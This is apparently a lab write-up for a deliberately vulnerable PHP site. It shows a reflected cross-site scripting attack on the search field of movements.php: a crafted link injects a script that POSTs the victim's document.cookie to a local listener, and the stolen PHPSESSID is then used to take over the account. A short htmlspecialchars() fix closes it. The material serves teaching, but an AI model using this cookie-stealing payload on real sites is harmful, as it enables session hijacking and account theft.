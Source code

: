 # Get cookies of specific user

This attack will exploit the search function on the movements page to grab the cookie of the user that clicks on the malicious link.

## Steps

- Listen on your machine for connections

    `docker run -it --rm --name node-logger -p 8000:8000 -v ${PWD}:/usr/src/app -w /usr/src/app node:alpine node logger.js`

- Create a malicious link

    `http://localhost:5000/movements.php?search="/><script>fetch("http://127.0.0.1:8000", {method:"POST", mode: "no-cors", body: document.cookie})</script>`

- Have the user visit the malicious link
- Grab the PHPSESSID cookie and take ownership of the account

## Mitigation

Wrap the search query text in [htmlspecialchars()](https://www.php.net/manual/en/function.htmlspecialchars.php) function

